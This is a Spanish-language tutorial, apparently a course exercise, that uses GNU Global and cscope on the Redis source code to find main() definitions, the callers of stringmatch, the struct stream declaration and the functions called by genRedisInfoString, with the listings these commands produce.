main               64 deps/jemalloc/test/unit/sz.c main(void) {
main              173 deps/jemalloc/test/unit/tcache_max.c main(void) {
main               34 deps/jemalloc/test/unit/test_hooks.c main(void) {
main               31 deps/jemalloc/test/unit/thread_event.c main(void) {
main               94 deps/jemalloc/test/unit/ticker.c main(void) {
main              262 deps/jemalloc/test/unit/tsd.c main(void) {
main              257 deps/jemalloc/test/unit/uaf.c main(void) {
main              272 deps/jemalloc/test/unit/witness.c main(void) {
main               55 deps/jemalloc/test/unit/zero.c main(void) {
main               22 deps/jemalloc/test/unit/zero_realloc_abort.c main(void) {
main               45 deps/jemalloc/test/unit/zero_realloc_alloc.c main(void) {
main               30 deps/jemalloc/test/unit/zero_realloc_free.c main(void) {
main               33 deps/jemalloc/test/unit/zero_reallocs.c main(void) {
main               23 deps/linenoise/example.c int main(int argc, char **argv) {
main               32 deps/lua/etc/min.c int main(void)
main              377 deps/lua/src/lua.c int main (int argc, char **argv) {
main              186 deps/lua/src/luac.c int main(int argc, char* argv[])
main              927 modules/vector-sets/expr.c int main(int argc, char **argv) {
main              485 modules/vector-sets/w2v.c int main(int argc, char **argv) {
main               89 src/localtime.c  int main(void) {
main              170 src/mt19937-64.c int main(void)
main             1696 src/redis-benchmark.c int main(int argc, char **argv) {
main             10616 src/redis-cli.c  int main(int argc, char **argv) {
main             7462 src/server.c     int main(int argc, char **argv) {
main              323 src/setproctitle.c int main(int argc, char *argv[]) {
main              363 src/siphash.c    int main(void) {
main               18 utils/corrupt_rdb.c int main(int argc, char **argv) {
main               83 utils/lru/lfu-simulation.c int main(void) {
main               75 utils/tracking_collisions.c int main(void) {
```

### Cscope

Usamos cscope en modo “no interactivo” para buscar la definición global de main:
```
cscope -d -L1 main > lista_main_cscope.txt
```
donde:
- -d → usa la base existente, no la reconstruye.
- -L1 → búsqueda tipo “Find this global definition” para el símbolo main.
- Redirigimos a lista_main_cscope.txt.

Vemos el resultado:
```
deps/hiredis/examples/example-ae.c main 43 int main (int argc, char **argv) {
deps/hiredis/examples/example-glib.c main 48 main (gint argc G_GNUC_UNUSED,
deps/hiredis/examples/example-ivykis.c main 35 int main (int argc, char **argv) {
deps/hiredis/examples/example-libev.c main 35 int main (int argc, char **argv) {
deps/hiredis/examples/example-libevent-ssl.c main 36 int main (int argc, char **argv) {
deps/hiredis/examples/example-libevent.c main 40 int main (int argc, char **argv) {
deps/hiredis/examples/example-libhv.c main 47 int main (int argc, char **argv) {
deps/hiredis/examples/example-libsdevent.c main 50 int main (int argc, char **argv) {
deps/hiredis/examples/example-libuv.c main 50 int main (int argc, char **argv) {
deps/hiredis/examples/example-macosx.c main 38 int main (int argc, char **argv) {
deps/hiredis/examples/example-poll.c main 42 int main (int argc, char **argv) {
deps/hiredis/examples/example-push.c main 106 int main(int argc, char **argv) {
deps/hiredis/examples/example-ssl.c main 12 int main(int argc, char **argv) {
deps/hiredis/examples/example.c main 58 int main(int argc, char **argv) {
deps/hiredis/sds.c main 1289 int main(void ) {
deps/hiredis/test.c main 2266 int main(int argc, char **argv) {
deps/jemalloc/test/analyze/prof_bias.c main 47 main(void ) {
deps/jemalloc/test/analyze/rand.c main 272 main(void ) {
deps/jemalloc/test/analyze/sizes.c main 32 main() {
deps/jemalloc/test/integration/MALLOCX_ARENA.c main 63 main(void ) {
deps/jemalloc/test/integration/aligned_alloc.c main 151 main(void ) {
deps/jemalloc/test/integration/allocated.c main 116 main(void ) {
deps/jemalloc/test/integration/extent.c main 281 main(void ) {
deps/jemalloc/test/integration/malloc.c main 13 main(void ) {
deps/jemalloc/test/integration/mallocx.c main 267 main(void ) {
deps/jemalloc/test/integration/overflow.c main 56 main(void ) {
deps/jemalloc/test/integration/posix_memalign.c main 123 main(void ) {
deps/jemalloc/test/integration/rallocx.c main 300 main(void ) {
deps/jemalloc/test/integration/sdallocx.c main 51 main(void ) {
deps/jemalloc/test/integration/slab_sizes.c main 77 main(void ) {
deps/jemalloc/test/integration/smallocx.c main 305 main(void ) {
deps/jemalloc/test/integration/thread_arena.c main 83 main(void ) {
deps/jemalloc/test/integration/thread_tcache_enabled.c main 79 main(void ) {
deps/jemalloc/test/integration/xallocx.c main 374 main(void ) {
deps/jemalloc/test/stress/batch_alloc.c main 190 int main(void ) {
deps/jemalloc/test/stress/fill_flush.c main 72 int main(void ) {
deps/jemalloc/test/stress/hookbench.c main 66 main(void ) {
deps/jemalloc/test/stress/large_microbench.c main 29 main(void ) {
deps/jemalloc/test/stress/mallctl.c main 70 main(void ) {
deps/jemalloc/test/stress/microbench.c main 119 main(void ) {
deps/jemalloc/test/unit/SFMT.c main 1593 main(void ) {
deps/jemalloc/test/unit/a0.c main 13 main(void ) {
deps/jemalloc/test/unit/arena_decay.c main 429 main(void ) {
deps/jemalloc/test/unit/arena_reset.c main 355 main(void ) {
deps/jemalloc/test/unit/atomic.c main 221 main(void ) {
deps/jemalloc/test/unit/background_thread.c main 113 main(void ) {
deps/jemalloc/test/unit/background_thread_enable.c main 92 main(void ) {
deps/jemalloc/test/unit/base.c main 258 main(void ) {
deps/jemalloc/test/unit/batch_alloc.c main 182 main(void ) {
deps/jemalloc/test/unit/binshard.c main 149 main(void ) {
deps/jemalloc/test/unit/bit_util.c main 280 main(void ) {
deps/jemalloc/test/unit/bitmap.c main 335 main(void ) {
deps/jemalloc/test/unit/buf_writer.c main 189 main(void ) {
deps/jemalloc/test/unit/cache_bin.c main 381 main(void ) {
deps/jemalloc/test/unit/ckh.c main 206 main(void ) {
deps/jemalloc/test/unit/counter.c main 76 main(void ) {
deps/jemalloc/test/unit/decay.c main 274 main(void ) {
deps/jemalloc/test/unit/div.c main 26 main(void ) {
deps/jemalloc/test/unit/double_free.c main 74 main(void ) {
deps/jemalloc/test/unit/edata_cache.c main 220 main(void ) {
deps/jemalloc/test/unit/emitter.c main 523 main(void ) {
deps/jemalloc/test/unit/extent_quantize.c main 136 main(void ) {
deps/jemalloc/test/unit/fb.c main 938 main(void ) {
deps/jemalloc/test/unit/fork.c main 137 main(void ) {
deps/jemalloc/test/unit/fxp.c main 381 main(void ) {
deps/jemalloc/test/unit/hash.c main 168 main(void ) {
deps/jemalloc/test/unit/hook.c main 574 main(void ) {
deps/jemalloc/test/unit/hpa.c main 441 main(void ) {
deps/jemalloc/test/unit/hpa_background_thread.c main 170 main(void ) {
deps/jemalloc/test/unit/hpdata.c main 237 int main(void ) {
deps/jemalloc/test/unit/huge.c main 103 main(void ) {
deps/jemalloc/test/unit/inspect.c main 274 main(void ) {
deps/jemalloc/test/unit/junk.c main 185 main(void ) {
deps/jemalloc/test/unit/log.c main 190 main(void ) {
deps/jemalloc/test/unit/mallctl.c main 1237 main(void ) {
deps/jemalloc/test/unit/malloc_conf_2.c main 26 main(void ) {
deps/jemalloc/test/unit/malloc_io.c main 262 main(void ) {
deps/jemalloc/test/unit/math.c main 382 main(void ) {
deps/jemalloc/test/unit/mpsc_queue.c main 298 main(void ) {
deps/jemalloc/test/unit/mq.c main 84 main(void ) {
deps/jemalloc/test/unit/mtx.c main 53 main(void ) {
deps/jemalloc/test/unit/nstime.c main 237 main(void ) {
deps/jemalloc/test/unit/oversize_threshold.c main 128 main(void ) {
deps/jemalloc/test/unit/pa.c main 123 main(void ) {
deps/jemalloc/test/unit/pack.c main 163 main(void ) {
deps/jemalloc/test/unit/pages.c main 26 main(void ) {
deps/jemalloc/test/unit/peak.c main 44 main(void ) {
deps/jemalloc/test/unit/ph.c main 326 main(void ) {
deps/jemalloc/test/unit/prng.c main 181 main(void ) {
deps/jemalloc/test/unit/prof_accum.c main 81 main(void ) {
deps/jemalloc/test/unit/prof_active.c main 116 main(void ) {
deps/jemalloc/test/unit/prof_gdump.c main 74 main(void ) {
deps/jemalloc/test/unit/prof_hook.c main 164 main(void ) {
deps/jemalloc/test/unit/prof_idump.c main 54 main(void ) {
deps/jemalloc/test/unit/prof_log.c main 143 main(void ) {
deps/jemalloc/test/unit/prof_mdump.c main 211 main(void ) {
deps/jemalloc/test/unit/prof_recent.c main 670 main(void ) {
deps/jemalloc/test/unit/prof_reset.c main 257 main(void ) {
deps/jemalloc/test/unit/prof_stats.c main 147 main(void ) {
deps/jemalloc/test/unit/prof_sys_thread_name.c main 74 main(void ) {
deps/jemalloc/test/unit/prof_tctx.c main 45 main(void ) {
deps/jemalloc/test/unit/prof_thread_name.c main 118 main(void ) {
deps/jemalloc/test/unit/psset.c main 735 main(void ) {
deps/jemalloc/test/unit/ql.c main 306 main(void ) {
deps/jemalloc/test/unit/qr.c main 236 main(void ) {
deps/jemalloc/test/unit/rb.c main 1012 main(void ) {
deps/jemalloc/test/unit/retained.c main 185 main(void ) {
deps/jemalloc/test/unit/rtree.c main 282 main(void ) {
deps/jemalloc/test/unit/safety_check.c main 153 main(void ) {
deps/jemalloc/test/unit/san.c main 202 main(void ) {
deps/jemalloc/test/unit/san_bump.c main 107 main(void ) {
deps/jemalloc/test/unit/sc.c main 30 main(void ) {
deps/jemalloc/test/unit/sec.c main 622 main(void ) {
deps/jemalloc/test/unit/seq.c main 91 int main(void ) {
deps/jemalloc/test/unit/size_check.c main 74 main(void ) {
deps/jemalloc/test/unit/size_classes.c main 183 main(void ) {
deps/jemalloc/test/unit/slab.c main 36 main(void ) {
deps/jemalloc/test/unit/smoothstep.c main 97 main(void ) {
deps/jemalloc/test/unit/spin.c main 15 main(void ) {
deps/jemalloc/test/unit/stats.c main 420 main(void ) {
deps/jemalloc/test/unit/stats_print.c main 995 main(void ) {
deps/jemalloc/test/unit/sz.c main 64 main(void ) {
deps/jemalloc/test/unit/tcache_max.c main 173 main(void ) {
deps/jemalloc/test/unit/test_hooks.c main 34 main(void ) {
deps/jemalloc/test/unit/thread_event.c main 31 main(void ) {
deps/jemalloc/test/unit/ticker.c main 94 main(void ) {
deps/jemalloc/test/unit/tsd.c main 262 main(void ) {
deps/jemalloc/test/unit/uaf.c main 257 main(void ) {
deps/jemalloc/test/unit/witness.c main 272 main(void ) {
deps/jemalloc/test/unit/zero.c main 55 main(void ) {
deps/jemalloc/test/unit/zero_realloc_abort.c main 22 main(void ) {
deps/jemalloc/test/unit/zero_realloc_alloc.c main 45 main(void ) {
deps/jemalloc/test/unit/zero_realloc_free.c main 30 main(void ) {
deps/jemalloc/test/unit/zero_reallocs.c main 33 main(void ) {
deps/linenoise/example.c main 23 int main(int argc, char **argv) {
deps/lua/etc/min.c main 32 int main(void )
deps/lua/src/lua.c main 377 int main (int argc, char **argv) {
deps/lua/src/luac.c main 186 int main(int argc, char * argv[])
modules/vector-sets/expr.c main 927 int main(int argc, char **argv) {
modules/vector-sets/w2v.c main 485 int main(int argc, char **argv) {
src/localtime.c main 89 int main(void ) {
src/mt19937-64.c main 170 int main(void )
src/redis-benchmark.c main 1696 int main(int argc, char **argv) {
src/redis-cli.c main 10616 int main(int argc, char **argv) {
src/server.c main 7462 int main(int argc, char **argv) {
src/setproctitle.c main 323 int main(int argc, char *argv[]) {
src/siphash.c main 363 int main(void ) {
utils/corrupt_rdb.c main 18 int main(int argc, char **argv) {
utils/lru/lfu-simulation.c main 83 int main(void ) {
utils/tracking_collisions.c main 75 int main(void ) {
```


## 3. Búsqueda de las funciones que llaman a la función stringmatch

### Global
Buscamos todas las referencias a stringmatch:
```
global -rx stringmatch
```


### Scope
```
cd redis
find . -name '*.[ch]' > cscope.files         # solo si no tenemos la Base de Datos
cscope -b -q -k -i cscope.files              # solo una vez

cscope -d -L3 stringmatch > referencias_stringmatch.txt
cat callers_stringmatch.txt                  # copiar o capturar
``` 
donde:
- -d → Para que use la base de datos, no la reconstruye.
- -L3 → “functions calling this function” (la opción 3 del menú interactivo).
- stringmatch → el símbolo a buscar.

```
src/config.c configGetCommand 978 if (stringmatch(name, dictGetKey(de), 1)) {
src/config.c moduleConfigIteratorNext 3517 if (!pattern || stringmatch(pattern, config->name, 1))
src/sentinel.c sentinelResetMastersByPattern 1561 if (stringmatch(pattern,ri->name,0)) {
src/sentinel.c sentinelConfigGetCommand 3322 if (stringmatch(pattern,"resolve-hostnames",1) && !dictFind(d, "resolve-hostnames")) {
src/sentinel.c sentinelConfigGetCommand 3328 if (stringmatch(pattern, "announce-hostnames", 1) && !dictFind(d, "announce-hostnames")) {
src/sentinel.c sentinelConfigGetCommand 3334 if (stringmatch(pattern, "announce-ip", 1) && !dictFind(d, "announce-ip")) {
src/sentinel.c sentinelConfigGetCommand 3340 if (stringmatch(pattern, "announce-port", 1) && !dictFind(d, "announce-port")) {
src/sentinel.c sentinelConfigGetCommand 3346 if (stringmatch(pattern, "sentinel-user", 1) && !dictFind(d, "sentinel-user")) {
src/sentinel.c sentinelConfigGetCommand 3352 if (stringmatch(pattern, "sentinel-pass", 1) && !dictFind(d, "sentinel-pass")) {
src/sentinel.c sentinelConfigGetCommand 3358 if (stringmatch(pattern, "loglevel", 1) && !dictFind(d, "loglevel")) {
```


## 4. Búsqueda de la declaración de struct stream
Tanto el archivo donde está, como la línea donde comienza. Debéis hacerlo usando las herramientas, no vale con mostrar su localización, debéis mostrar como se localiza.

### La declaración de struct stream en el código
En C, un struct es una estructura de datos: un tipo que agrupa varias variables bajo un mismo nombre. En Redis existe un tipo de datos complejo llamado `struct stream`, que guarda toda la información relacionada con un `stream` (una estructura interna de Redis).


Tenemos que buscar el sitio del código donde se define esa estructura. Aparecerá algo de este estilo:
```
typedef struct stream {
    /* campos... */
} stream;

/* o algo parecido a: */

struct stream {
    /* campos... */
};
```

### Global
```
global -x stream
```

donde:
- Busca definiciones del símbolo `stream` en la base de datos (GTAGS).
- -x → Las imprime en formato tipo “cross-reference”.
- Devuelve dos líneas:
  - Línea 16 (el primer resultado) → Corresponde donde se está declarando el struct stream.
  - Línea 28: (segundo resultado) → Corresponde donde se cierra la estructura y se define el typedef stream (el alias sin struct). Forma parte de la misma declaración, pero ya no es el “struct stream” sino el nombre de tipo abreviado stream.

Usando GNU Global con `global -x stream` localizamos la declaración de struct stream en el archivo src/stream.h, en la línea 16.


### Cscope
```
cscope -d -L4 "struct stream"
```

donde:
- -d → Para que use la BD existente, no la reconstruye.
- -L4 → tipo de búsqueda “Find this text string”.

Usando scope vemos todas las líneas donde aparace: struct stream*. (Por ello vemos múltiples resultados)

**Para que busque como cadena completa y sólo muestre un único resultado:**
```
cscope -d -L4 "typedef struct stream "
                         #          ^ espacio al final
```



**<mark>Solución: La declaración de struct stream está en:**</mark>
  - Archivo → src/stream.h
  - Línea → 16


## 5. Enumeración de las funciones que llaman la función genRedisInfoString

### Cscope en Modo NO interactivo
```
cscope -d -L2 genRedisInfoString > genRedisInfoString.txt
```
donde:
- -d → Para que use la base de datos existente, no la reconstruye.
- -L2 → “functions called by this function”.
- genRedisInfoString → la función que queremos analizar.

Resultado por línea: Archivo donde está la referencia. Función llamada por genRedisInfoString. Número de línea. Un poco del código de esa línea:
```
src/server.c sdsempty 5969 sds info = sdsempty();
src/server.c dictFind 5976 if (all_sections || (dictFind(section_dict,"server") != NULL)) {
src/server.c sdscat 5994 if (sections++) info = sdscat(info,"\r\n");
src/server.c uname 5998 uname(&name);
src/server.c sdscatfmt 6002 info = sdscatfmt(info, "# Server\r\n" FMTARGS(
src/server.c FMTARGS 6002 info = sdscatfmt(info, "# Server\r\n" FMTARGS(
src/server.c redisGitSHA1 6004 "redis_git_sha1:%s\r\n", redisGitSHA1(),
src/server.c strtol 6005 "redis_git_dirty:%i\r\n", strtol(redisGitDirty(),NULL,10) > 0,
src/server.c redisGitDirty 6005 "redis_git_dirty:%i\r\n", strtol(redisGitDirty(),NULL,10) > 0,
src/server.c redisBuildIdString 6006 "redis_build_id:%s\r\n", redisBuildIdString(),
src/server.c monotonicInfoString 6012 "monotonic_clock:%s\r\n", monotonicInfoString(),
src/server.c aeGetApiName 6013 "multiplexing_api:%s\r\n", aeGetApiName(),
src/server.c getpid 6016 "process_id:%I\r\n", (int64_t) getpid(),
src/server.c isShutdownInitiated 6031 if (isShutdownInitiated()) {
src/server.c sdscatfmt 6032 info = sdscatfmt(info,
src/server.c commandTimeSnapshot 6034 (int64_t)(server.shutdown_mstime - commandTimeSnapshot()));
src/server.c getListensInfoString 6038 info = getListensInfoString(info);
src/server.c dictFind 6042 if (all_sections || (dictFind(section_dict,"clients") != NULL)) {
src/server.c getExpansiveClientsInfo 6045 getExpansiveClientsInfo(&maxin,&maxout);
src/server.c totalNumberOfStatefulKeys 6046 totalNumberOfStatefulKeys(&blocking_keys, &blocking_keys_on_nokey, &watched_keys);
src/server.c sdscat 6047 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6048 info = sdscatprintf(info, "# Clients\r\n" FMTARGS(
src/server.c FMTARGS 6048 info = sdscatprintf(info, "# Clients\r\n" FMTARGS(
src/server.c listLength 6049 "connected_clients:%lu\r\n", listLength(server.clients) - listLength(server.slaves),
src/server.c getClusterConnectionsCount 6050 "cluster_connections:%lu\r\n", getClusterConnectionsCount(),
src/server.c raxSize 6058 "clients_in_timeout_table:%llu\r\n", (unsigned long long ) raxSize(server.clients_timeout_table),
src/server.c dictFind 6065 if (all_sections || (dictFind(section_dict,"memory") != NULL)) {
src/server.c zmalloc_used_memory 6074 size_t zmalloc_used = zmalloc_used_memory();
src/server.c evictPolicyToString 6076 const char *evict_policy = evictPolicyToString();
src/server.c evalScriptsMemoryVM 6077 long long memory_lua = evalScriptsMemoryVM();
src/server.c functionsMemoryVM 6078 long long memory_functions = functionsMemoryVM();
src/server.c getMemoryOverheadData 6079 struct redisMemOverhead *mh = getMemoryOverheadData();
src/server.c updatePeakMemory 6085 updatePeakMemory(zmalloc_used);
src/server.c bytesToHuman 6087 bytesToHuman(hmem,sizeof(hmem),zmalloc_used);
src/server.c bytesToHuman 6088 bytesToHuman(peak_hmem,sizeof(peak_hmem),server.stat_peak_memory);
src/server.c bytesToHuman 6089 bytesToHuman(total_system_hmem,sizeof(total_system_hmem),total_system_mem);
src/server.c bytesToHuman 6090 bytesToHuman(used_memory_lua_hmem,sizeof(used_memory_lua_hmem),memory_lua);
src/server.c bytesToHuman 6091 bytesToHuman(used_memory_vm_total_hmem,sizeof(used_memory_vm_total_hmem),memory_functions + memory_lua);
src/server.c bytesToHuman 6092 bytesToHuman(used_memory_scripts_hmem,sizeof(used_memory_scripts_hmem),mh->eval_caches + mh->functions_caches);
src/server.c bytesToHuman 6093 bytesToHuman(used_memory_rss_hmem,sizeof(used_memory_rss_hmem),server.cron_malloc_stats.process_rss);
src/server.c bytesToHuman 6094 bytesToHuman(maxmemory_hmem,sizeof(maxmemory_hmem),server.maxmemory);
src/server.c sdscat 6096 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6097 info = sdscatprintf(info, "# Memory\r\n" FMTARGS(
src/server.c FMTARGS 6097 info = sdscatprintf(info, "# Memory\r\n" FMTARGS(
src/server.c dictSize 6120 "number_of_cached_scripts:%lu\r\n", dictSize(evalScriptsDict()),
src/server.c evalScriptsDict 6120 "number_of_cached_scripts:%lu\r\n", dictSize(evalScriptsDict()),
src/server.c functionsNum 6121 "number_of_functions:%lu\r\n", functionsNum(),
src/server.c functionsLibNum 6122 "number_of_libraries:%lu\r\n", functionsLibNum(),
src/server.c freeMemoryGetNotCountedMemory 6144 "mem_not_counted_for_evict:%zu\r\n", freeMemoryGetNotCountedMemory(),
src/server.c asmGetPeakSyncBufferSize 6152 "mem_cluster_slot_migration_input_buffer_peak:%zu\r\n", asmGetPeakSyncBufferSize(),
src/server.c lazyfreeGetPendingObjectsCount 6158 "lazyfree_pending_objects:%zu\r\n", lazyfreeGetPendingObjectsCount(),
src/server.c lazyfreeGetFreedObjectsCount 6159 "lazyfreed_objects:%zu\r\n", lazyfreeGetFreedObjectsCount()));
src/server.c freeMemoryOverheadData 6160 freeMemoryOverheadData(mh);
src/server.c dictFind 6164 if (all_sections || (dictFind(section_dict,"persistence") != NULL)) {
src/server.c sdscat 6165 if (sections++) info = sdscat(info,"\r\n");
src/server.c atomicGet 6173 atomicGet(server.aof_bio_fsync_status,aof_bio_fsync_status);
src/server.c sdscatprintf 6175 info = sdscatprintf(info, "# Persistence\r\n" FMTARGS(
src/server.c FMTARGS 6175 info = sdscatprintf(info, "# Persistence\r\n" FMTARGS(
src/server.c elapsedMs 6181 (unsigned long ) elapsedMs(server.stat_current_cow_updated) / 1000 : 0),
src/server.c time 6191 -1 : time(NULL)-server.rdb_save_time_start),
src/server.c time 6202 -1 : time(NULL)-server.aof_rewrite_time_start),
src/server.c sdscatprintf 6214 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6214 info = sdscatprintf(info, FMTARGS(
src/server.c sdslen 6218 "aof_buffer_length:%zu\r\n", sdslen(server.aof_buf),
src/server.c bioPendingJobsOfType 6219 "aof_pending_bio_fsync:%lu\r\n", bioPendingJobsOfType(BIO_AOF_FSYNC),
src/server.c time 6239 elapsed = time(NULL)-server.loading_start_time;
src/server.c sdscatprintf 6247 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6247 info = sdscatprintf(info, FMTARGS(
src/server.c dictFind 6261 if (all_sections || (dictFind(section_dict,"threads") != NULL)) {
src/server.c sdscat 6262 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6263 info = sdscatprintf(info, "# Threads\r\n");
src/server.c atomicGet 6266 atomicGet(server.stat_io_reads_processed[j], reads);
src/server.c atomicGet 6267 atomicGet(server.stat_io_writes_processed[j], writes);
src/server.c sdscatprintf 6268 info = sdscatprintf(info, "io_thread_%d:clients=%d,reads=%lld,writes=%lld\r\n",
src/server.c dictFind 6279 if (all_sections || (dictFind(section_dict,"stats") != NULL)) {
src/server.c elapsedUs 6283 (long long ) elapsedUs(server.stat_last_eviction_exceeded_time): 0;
src/server.c elapsedUs 6285 (long long ) elapsedUs(server.stat_last_active_defrag_time): 0;
src/server.c atomicGet 6287 atomicGet(server.stat_net_input_bytes, stat_net_input_bytes);
src/server.c atomicGet 6288 atomicGet(server.stat_net_output_bytes, stat_net_output_bytes);
src/server.c atomicGet 6289 atomicGet(server.stat_net_repl_input_bytes, stat_net_repl_input_bytes);
src/server.c atomicGet 6290 atomicGet(server.stat_net_repl_output_bytes, stat_net_repl_output_bytes);
src/server.c atomicGet 6291 atomicGet(server.stat_client_qbuf_limit_disconnections, stat_client_qbuf_limit_disconnections);
src/server.c atomicGet 6298 atomicGet(server.stat_io_reads_processed[j], reads);
src/server.c atomicGet 6301 atomicGet(server.stat_io_writes_processed[j], writes);
src/server.c sdscat 6307 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6308 info = sdscatprintf(info, "# Stats\r\n" FMTARGS(
src/server.c FMTARGS 6308 info = sdscatprintf(info, "# Stats\r\n" FMTARGS(
src/server.c getInstantaneousMetric 6311 "instantaneous_ops_per_sec:%lld\r\n", getInstantaneousMetric(STATS_METRIC_COMMAND),
src/server.c getInstantaneousMetric 6316 "instantaneous_input_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_INPUT)/1024,
src/server.c getInstantaneousMetric 6317 "instantaneous_output_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_OUTPUT)/1024,
src/server.c getInstantaneousMetric 6318 "instantaneous_input_repl_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_INPUT_REPLICATION)/1024,
src/server.c getInstantaneousMetric 6319 "instantaneous_output_repl_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_OUTPUT_REPLICATION)/1024,
src/server.c kvstoreSize 6336 "pubsub_channels:%llu\r\n", kvstoreSize(server.pubsub_channels),
src/server.c dictSize 6337 "pubsub_patterns:%lu\r\n", dictSize(server.pubsub_patterns),
src/server.c kvstoreSize 6338 "pubsubshard_channels:%llu\r\n", kvstoreSize(server.pubsubshard_channels),
src/server.c dictSize 6341 "migrate_cached_sockets:%ld\r\n", dictSize(server.migrate_cached_sockets),
src/server.c getSlaveKeyWithExpireCount 6342 "slave_expires_tracked_keys:%zu\r\n", getSlaveKeyWithExpireCount(),
src/server.c trackingGetTotalKeys 6349 "tracking_total_keys:%lld\r\n", (unsigned long long ) trackingGetTotalKeys(),
src/server.c trackingGetTotalItems 6350 "tracking_total_items:%lld\r\n", (unsigned long long ) trackingGetTotalItems(),
src/server.c trackingGetTotalPrefixes 6351 "tracking_total_prefixes:%lld\r\n", (unsigned long long ) trackingGetTotalPrefixes(),
src/server.c getInstantaneousMetric 6368 "instantaneous_eventloop_cycles_per_sec:%llu\r\n", getInstantaneousMetric(STATS_METRIC_EL_CYCLE),
src/server.c getInstantaneousMetric 6369 "instantaneous_eventloop_duration_usec:%llu\r\n", getInstantaneousMetric(STATS_METRIC_EL_DURATION)));
src/server.c genRedisInfoStringACLStats 6370 info = genRedisInfoStringACLStats(info);
src/server.c sdscatprintf 6372 info = sdscatprintf(info, "cluster_incompatible_ops:%lld\r\n", server.stat_cluster_incompatible_ops);
src/server.c dictFind 6377 if (all_sections || (dictFind(section_dict,"replication") != NULL)) {
src/server.c sdscat 6378 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6379 info = sdscatprintf(info,
src/server.c sdscatprintf 6397 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6397 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6414 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6414 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6423 info = sdscatprintf(info,
src/server.c sdscatprintf 6428 info = sdscatprintf(info,
src/server.c sdscatprintf 6433 info = sdscatprintf(info, "total_disconnect_time_sec:%jd\r\n", (intmax_t)server.repl_total_disconnect_time+(current_disconnect_time));
src/server.c sdscatprintf 6435 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6435 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6441 info = sdscatprintf(info,
src/server.c replicationLogicalReplicaCount 6443 replicationLogicalReplicaCount());
src/server.c sdscatprintf 6449 info = sdscatprintf(info,
src/server.c listLength 6454 if (listLength(server.slaves)) {
src/server.c listRewind 6459 listRewind(server.slaves,&li);
src/server.c listNext 6460 while ((ln = listNext(&li))) {
src/server.c listNodeValue 6461 client *slave = listNodeValue(ln);
src/server.c replicationCheckHasMainChannel 6471 if (replicationCheckHasMainChannel(slave))
src/server.c connAddrPeerName 6479 if (connAddrPeerName(slave->conn,ip,sizeof(ip),&port) == -1)
src/server.c replstateToString 6483 const char *state = replstateToString(slave->replstate);
src/server.c time 6486 lag = time(NULL) - slave->repl_ack_time;
src/server.c sdscatprintf 6488 info = sdscatprintf(info,
src/server.c sdscatprintf 6496 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6496 info = sdscatprintf(info, FMTARGS(
src/server.c getFailoverStateString 6497 "master_failover_state:%s\r\n", getFailoverStateString(),
src/server.c dictFind 6509 if (all_sections || (dictFind(section_dict,"cpu") != NULL)) {
src/server.c sdscat 6510 if (sections++) info = sdscat(info,"\r\n");
src/server.c getrusage 6513 getrusage(RUSAGE_SELF, &self_ru);
src/server.c getrusage 6514 getrusage(RUSAGE_CHILDREN, &c_ru);
src/server.c sdscatprintf 6515 info = sdscatprintf(info,
src/server.c getrusage 6527 getrusage(RUSAGE_THREAD, &m_ru);
src/server.c sdscatprintf 6528 info = sdscatprintf(info,
src/server.c dictFind 6537 if (all_sections || (dictFind(section_dict,"module_list") != NULL) || (dictFind(section_dict,"modules") != NULL)) {
src/server.c sdscat 6538 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6539 info = sdscatprintf(info,"# Modules\r\n");
src/server.c genModulesInfoString 6540 info = genModulesInfoString(info);
src/server.c dictFind 6544 if (all_sections || (dictFind(section_dict,"commandstats") != NULL)) {
src/server.c sdscat 6545 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6546 info = sdscatprintf(info, "# Commandstats\r\n");
src/server.c genRedisInfoStringCommandStats 6547 info = genRedisInfoStringCommandStats(info, server.commands);
src/server.c dictFind 6551 if (all_sections || (dictFind(section_dict,"errorstats") != NULL)) {
src/server.c sdscat 6552 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscat 6553 info = sdscat(info, "# Errorstats\r\n");
src/server.c raxStart 6555 raxStart(&ri,server.errors);
src/server.c raxSeek 6556 raxSeek(&ri,"^",NULL,0);
src/server.c raxNext 6558 while (raxNext(&ri)) {
src/server.c sdscatprintf 6561 info = sdscatprintf(info,
src/server.c getSafeInfoString 6563 (int )ri.key_len, getSafeInfoString((char *) ri.key, ri.key_len, &tmpsafe), e->count);
src/server.c zfree 6564 if (tmpsafe != NULL) zfree(tmpsafe);
src/server.c raxStop 6566 raxStop(&ri);
src/server.c dictFind 6570 if (all_sections || (dictFind(section_dict,"latencystats") != NULL)) {
src/server.c sdscat 6571 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6572 info = sdscatprintf(info, "# Latencystats\r\n");
